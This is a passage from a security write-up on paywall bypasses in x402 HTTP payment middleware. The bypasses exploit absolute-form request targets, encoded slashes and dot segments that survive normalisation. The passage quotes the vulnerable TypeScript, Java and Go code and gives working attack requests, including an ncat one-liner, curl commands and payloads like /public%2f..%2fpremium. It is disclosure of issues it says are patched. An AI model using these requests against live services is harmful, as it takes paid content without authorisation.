GET /prEmium HTTP/1.1
Host: app.example
```

```http title="HTTP response"
HTTP/1.1 200 OK
Content-Type: application/json

{ "served":"PREMIUM CONTENT" }
```

### Absolute-form request-targets

Several **Middleware** implementations reached for `req.url` (`request.url`, `req.originalUrl`, ...):

```ts title="[⚠️ REWRITTEN] for Express"
export function paymentMiddleware(payTo, routes, facilitator) {
	const { verify, settle } = useFacilitator(facilitator);
	const routePatterns = computeRoutePatterns(routes);

	return async function (req: Request, res: Response, next: NextFunction) {
		const matched = findMatchingRoute(routePatterns, req.url, req.method.toUpperCase());

		if (!matched) {
			return next();   // nothing to charge for;
		}

		const { price, network, config = {} } = matched.config;
		/* ... build the 402 challenge, verify, settle ... */
	};
}
```

```ts title="[⚠️ REWRITTEN] for Fastify"
app.addHook("onRequest", async (incoming, outgoing) => {
  const context = {
    adapter: new RequestAdapter(incoming),
    path: incoming.url.split("?")[0],
    method: incoming.method,
    paymentHeader:
      incoming.headers["payment-signature"] ||
      incoming.headers["x-payment"],
  };

  if (!paymentServer.requiresPayment(context)) return;
  // continue into payment processing;
});

```

`req.url` is the raw request-target as it arrived in a network packet.

[**RFC-9112**](https://www.ietf.org/ietf-ftp/rfc/inline-errata/rfc9112.html) (previously [**RFC-2616**](https://www.ietf.org/ietf-ftp/rfc/inline-errata/rfc2616.html)) defines 4 forms of the request-target:
| Form             | Example |
| :--------------- | :------ |
| `origin-form`    | `GET /premium.html?lang=en HTTP/1.1` |
| `absolute-form`  | `GET https://neplox.security/premium.html?lang=en HTTP/1.1` |
| `authority-form` | `CONNECT neplox.security:443 HTTP/1.1` |
| `asterisk-form`  | `OPTIONS * HTTP/1.1` |

It also [says](https://datatracker.ietf.org/doc/html/rfc9112#section-3.2.2-9) that:
> "A server **MUST** accept the absolute-form in requests even though most HTTP/1.1 clients will only send the absolute-form to a proxy."

Of course, not everyone listens to RFCs, as the practice shows; but **Express** and **Fastify**, for example, if requested to serve the absolute-form path – accept it and route on the _path component_ of it. At the same time, a **Middleware** that matches on the raw target sees a completely different string.

Thanks to that, the following is a perfectly valid request:
```http title="HTTP request"
GET https://neplox.security/premium HTTP/1.1
Host: app.example
```

| Who?           | What do they see?                     |
| :------------- | :------------------------------------ |
| **Client**     | `GET https://neplox.security/premium` |
| **Middleware** | `GET https://neplox.security/premium` |
| **Server**     | `GET /premium`                        |

Several **Middleware** implementations did not take absolute-form target-paths into account, did not normalise them and accepted them raw, just as they arrived on the wire – therefore did not properly match these target-paths to the paywalled ones and let the **Client** access them as any other free content.

The **Server**, who serves routes in accordance with the RFC, would then navigate the **Client** to the very route the **Middleware** itself allowed it to, except that they see the same route a bit differently.

As we have already stated, route selection is the **Middleware**'s job – the **Server** verifies nothing and does not know if the payment actually happened.

```bash title="CLI request"
echo -ne 'GET https://neplox.security/premium HTTP/1.1\r\nHost: app.example:4021\r\n\r\n' | ncat localhost 4021
```

```http title="HTTP request"
GET https://neplox.security/premium HTTP/1.1
Host: app.example
```

```http title="HTTP response"
HTTP/1.1 200 OK
Content-Type: application/json

{ "served":"PREMIUM CONTENT" }
```






### Percent-encoding & dot segment problems

[**RFC-3986**](https://datatracker.ietf.org/doc/html/rfc3986) introduces the rule everything here violates: a percent-encoded reserved character is NOT equivalent to its decoded form.
- `%2F` is a literal slash inside a segment; `/` is a segment delimiter. Decoding `%2F` before splitting the path into segments changes the structure of the path.
- Likewise, `remove_dot_segments` operates on path segments, and `%2e%2e` is not literally a dot segment – so the dot is only removed if the unreserved set has been decoded first.

Run the two the other way round and a literal `..` reappears in a string that was deemed normalised – you will see examples in all the sections below.

### Decoding separators before matching parameters

> [!NOTE]
> The public report is [issue `#3850`](https://github.com/x402-foundation/x402/issues/3850);

A v1 x402 matcher introduced broader path normalisation. It removed query and fragment suffixes, percent-decoded the entire path, converted backslashes to slashes, collapsed repeated slashes, and removed trailing slashes:

```ts title="typescript/packages/legacy/x402/src/shared/middleware.ts"
/**
 * Finds the matching route pattern for the given path and method
 *
 * @param routePatterns - The route patterns to search through
 * @param path - The path to match against
 * @param method - The HTTP method to match against
 * @returns The matching route pattern or undefined if no match is found
 */
export function findMatchingRoute(
  routePatterns: RoutePattern[],
  path: string,
  method: string,
): RoutePattern | undefined {
  // Normalize the path:
  // 1. Remove query parameters and hash fragments
  // 2. Replace backslashes with forward slashes
  // 3. Replace multiple consecutive slashes with a single slash
  // 4. Keep trailing slash if path is not root

  const pathWithoutQuery = path.split(/[?#]/)[0];

  let decodedOrRawPath: string;
  try {
    decodedOrRawPath = decodeURIComponent(pathWithoutQuery);
  } catch {
    decodedOrRawPath = pathWithoutQuery;
  }

  const normalisedPath = decodedOrRawPath
    .replace(/\\/g, "/") // replace backslashes
    .replace(/\/+/g, "/") // collapse slashes
    .replace(/(.+?)\/+$/, "$1"); // trim trailing slashes

  const upperMethod = method.toUpperCase();
  const findMatchingRoutes = (candidateMethod: string): RoutePattern[] =>
    routePatterns.filter(
      ({ pattern, verb }) =>
        pattern.test(normalisedPath) && (verb === "*" || candidateMethod === verb),
    );

  // HTTP routers commonly dispatch HEAD through GET. Preserve an explicit
  // HEAD or wildcard route, and only use GET when neither directly matched.
  let matchingRoutes = findMatchingRoutes(upperMethod);
  if (matchingRoutes.length === 0 && upperMethod === "HEAD") {
    matchingRoutes = findMatchingRoutes("GET");
  }

  if (matchingRoutes.length === 0) {
    return undefined;
  }

  // Use the most specific route (longest path pattern)
  const matchingRoute = matchingRoutes.reduce((a, b) =>
    b.pattern.source.length > a.pattern.source.length ? b : a,
  );

  return matchingRoute;
}
```

The section which defines `decodedOrRawPath` decodes `%2F` / `%5C` into `/` / `\`. The `normalisedPath` then treats them as a part of the structure. A parameterised route compiles `[id]` into `[^/]+`:

Say we have the following **Express**-powered application with a parameterised route behind the x402 **Middleware**:
```js title="app.js"
const express = require("express");
const { paymentMiddleware } = require("x402-express");

const app = express();

app.use(
  paymentMiddleware(
    "0x1111111111111111111111111111111111111111",
    {
      "GET /api/[id]/premium": {
        price: "$0.01",
        network: "base-sepolia",
        config: { description: "Access to premium content" },
      },
      "GET /api/[id]": {
        price: "$0.01",
        network: "base-sepolia",
        config: { description: "Access to premium content" },
      },
    }
  ),
);

app.get("/api/:id/premium", (req, res) => {
  res.json({
    message: "PAID CONTENT",
    id: req.params.id
  });
});

app.get("/api/:id", (req, res) => {
  res.json({
    message: "PAID CONTENT",
    id: req.params.id
  });
});

app.listen(3000);
```

- Payment rule:&ensp;`/api/[id]/premium`
- Compiled pattern:&ensp;`^/api/[^/]+/premium$`
- Application route:&ensp;`/api/:id/premium`

For an ordinary identifier, both layers agree:
```http title="HTTP request"
GET /api/42/premium HTTP/1.1
Host: app.example
```
```http title="HTTP response"
HTTP/1.1 402 Payment Required
Content-Type: application/json

{"x402Version":1,"accepts":["<payment requirement>"]}
```

But if the Attacker places a URL-encoded separator (like `%2f` or `%5c`) inside the identifier, `/api/4%2f2/premium` – the payment layer's `[^/]+` matches exactly 1 segment, so a parameter containing an encoded slash produces an extra segment and the pattern stops matching – it decodes the path differently: `/api/4/2/premium`.

| Req. parameter | Payment matcher after decoding | App. parameter | Matches the pattern? |
| :-----: | :-- | :-- | :-: |
| `42`    | 1 segment: `42`   | 1 parameter: `42`  | yes |
| `4%2f2` | 2 segments: `4/2` | 1 parameter: `4/2` | NO  |
| `4%5c2` | 2 segments: `4/2` | 1 parameter: `4\2` | NO  |

Some servers, like **Express** and **Hono**, do the opposite: they match the raw target against the route, and only then decode the parameter, so both would answer `GET /api/4%2f2/premium` with a handler registered for `/api/:id/premium` with `req.params.id == "4/2"`, while the **Middleware** has already decided it should not be paid for.

This way, the Attacker can bypass the paywall and get free content for any parameterised route, as long as the application supports the "poisoned" parameter.

```bash title="CLI request"
curl -i "http://app.example/api/4%2f2/premium"
```
```http title="HTTP request"
GET /api/4%2f2/premium HTTP/1.1
Host: app.example
```
```http title="HTTP response"
HTTP/1.1 200 OK
Content-Type: application/json

{ "served":"PREMIUM CONTENT", "data":"4/2" }
```



### Dot segments introduced after normalisation

> [!NOTE]
> The public report is [issue `#3849`](https://github.com/x402-foundation/x402/issues/3849);

An x402 Java filter attempted to normalise the raw request URI before looking it up in a list of paywalled routes.

```java title="java/src/main/java/org/x402/server/PaymentFilter.java"
private static String normalizePath(String rawUri) {
    if (rawUri == null) return null;
    try {
        // Strip matrix parameters (;param) that servlet containers remove before routing.
        String stripped = rawUri.replaceAll(";[^/?#]*", "");
        // Prepend dummy scheme+authority so URI treats the value as a path component.
        // Without this, "//foo" would be parsed as authority="foo", path="".
        String normalised = new URI("http://x" + stripped).normalize().getPath();
        // Collapse consecutive slashes that normalize() leaves intact (e.g. //foo → /foo).
            return normalised.replaceAll("/+", "/");
    } catch (Exception e) {
            return null;
    }
}
```

- `java.net.URI.normalize()` operates on the raw path and removes literal `.` / `..` path segments – here, `%2e%2e` is not literally a dot segment yet and therefore it survives untouched;
- `.getPath()` then performs URL-decoding, turning it into a literal `..` – after the only step that could have removed it.

Tomcat, for example, processes the path it is given in the other order: decodes first and normalises second; so it dispatches `/public/%2e%2e/premium` to the servlet mapped at `/premium`\*.

| Step                 | ???                               |
| :------------------- | :-------------------------------- |
| Requested URI        | `/public/%2e%2e/premium`          |
| After `.normalize()` | `/public/%2e%2e/premium`          |
| After `.getPath()`   | `/public/../premium`              |
| Paywalled?           | `/public/../premium`? Nah         |
| \*Served             | `/premium`                        |

```http title="HTTP request"
GET /public/%2e%2e/premium HTTP/1.1
Host: app.example
```
```http title="HTTP response"
HTTP/1.1 200 OK
Content-Type: application/json

{ "served":"PREMIUM CONTENT" }
```



### Decoded paths at a middleware, normalised paths at the backend

The same class of issues affected a Go **Middleware** – it decided whether the route required payment based on the value of `req.URL.Path`:
```golang title="[⚠️ REWRITTEN] chooseRoute() and requiredAuth()"
func chooseRoute(r *http.Request, routes []*Route) (*Route, bool) {
    for _, s := range routes {
        if !s.hostPattern.MatchString(r.Host) {
            continue
        }
        if s.pathPattern == nil || s.pathPattern.MatchString(r.URL.Path) {
            return s, true
        }
    }
    return nil, false
}

func (s *Route) requiredAuth(r *http.Request) AuthLevel {
    for _, public := range s.publicPaths {
        if public.MatchString(r.URL.Path) {
            return AuthOff
        }
    }
    return s.authLevel
}
```

In Go's `net/http`, `URL` parsing percent-decodes the `Path` and leaves dot segments unresolved (`remove_dot_segments` is not run). Meanwhile the Middleware's transport that forwards the request writes `req.URL.RequestURI()` upstream, which prefers `RawPath` with the original escaping preserved.

So the **Middleware** authorised on a decoded, un-normalised path, but forwarded the raw one.

Consider, for example, the following Nginx configuration:
```conf title="nginx.conf"
...

http {
    ...

        # The public route
        location = /public {
            return 200 '{"route":"public","message":"FREE CONTENT"}\n';
        }

        # The "premium" route
        location = /premium {
            return 200 '{"route":"premium","message":"PREMIUM CONTENT","secret":42}\n';
        }

        location / {
            return 404 '{"error":"no such route"}\n';
        }
    }
}
```

And either of these routing policies:
1. A free route matching `^/public.*$` + a paid route matching `^/premium.*$`, both pointing to a backend that serves both resources;
2. A single universal paid route with an exception for paths matching `^/public.*$`.

| Requested URI | Middleware sees (`URL.Path`) | Paywalled? | Backend receives (`RawPath`) | Backend serves |
| :-- | :-- | :-: | :-- | :-- |
| `/premium` | `/premium` | yes | `/premium` | 402 |
| `/%70remium` | `/premium` | yes | `/%70remium` | _case 1: free route; case 2: 402_ |
| `/public/../premium` | `/public/../premium` | NO | `/premium` | `/premium` |
| `/public/%2e%2e/premium` | `/public/../premium` | NO | `/public/%2e%2e/premium` | `/premium` |
| `/public%2f..%2fpremium` | `/public/../premium` | NO | `/public%2f..%2fpremium` | `/premium` |

1. In the first case, the paywall is bypassed because `/public%2f..%2fpremium` does not match the paywalled `^/premium.*$`;
2. In the second case, the paywall is bypassed because `/public%2f..%2fpremium` matches the un-paywalled `^/public.*$`.

```http title="HTTP request"
GET /public%2f..%2fpremium HTTP/1.1
Host: app.example
```
```http title="HTTP response"
HTTP/1.1 200 OK
Content-Type: application/json

{ "served":"PREMIUM CONTENT" }
```

The only precondition is a free route whose pattern is not anchored to an exact path – `^/public.*$` rather than `^/public$` – so that the un-normalised `/public/../premium` matches it.



## In conclusion

All of the issues described in this article have already been patched.

> [!NOTE]
> So, what is `[402, 20, 3009, 2068, 3986, 7231, 7235, 9110, 9112], 1337`?
> | ? | Link | Description |
> | :-- | :-- | :-- |
> | x402 / L402 |  | Enable HTTP-native payments using stablecoins / blockchain transactions. |
> | ERC-20 | [eips.ethereum.org/EIPS/eip-20](https://eips.ethereum.org/EIPS/eip-20) | Standardises fungible token interfaces, transfers, balances, and approvals on Ethereum |
> | EIP-3009 | [eips.ethereum.org/EIPS/eip-3009](https://eips.ethereum.org/EIPS/eip-3009) | Enables ERC-20 token transfers via signed authorizations without separate approval transactions |
> | RFC-2068 | [ietf.org/.../rfc2068](https://www.ietf.org/ietf-ftp/rfc/inline-errata/rfc2068.html) | Original HTTP/1.1 specification defining methods, headers, messaging, and connection behaviour |
> | RFC-3986 | [ietf.org/.../rfc3986](https://www.ietf.org/ietf-ftp/rfc/inline-errata/rfc3986.html) | Defines URI syntax, parsing, resolution, and normalisation |
> | RFC-7231 | [ietf.org/.../rfc7231](https://www.ietf.org/ietf-ftp/rfc/inline-errata/rfc7231.html) | Defines HTTP request methods, status codes, headers, and content semantics |
> | RFC-7235 | [ietf.org/.../rfc7235](https://www.ietf.org/ietf-ftp/rfc/inline-errata/rfc7235.html) | Defines HTTP authentication frameworks, challenges, and authorization headers |
> | RFC-9110 | [ietf.org/.../rfc9110](https://www.ietf.org/ietf-ftp/rfc/inline-errata/rfc9110.html) | Defines HTTP semantics, including methods, status codes, headers, caching-related semantics, and authentication |
> | RFC-9112 | [ietf.org/.../rfc9112](https://www.ietf.org/ietf-ftp/rfc/inline-errata/rfc9112.html) | Defines HTTP/1.1 message syntax, framing, parsing, and connection management |
> | 1337 | [en.wikipedia.org/wiki/Leet](https://en.wikipedia.org/wiki/Leet) | LEET! |
> 
> Did you get it right?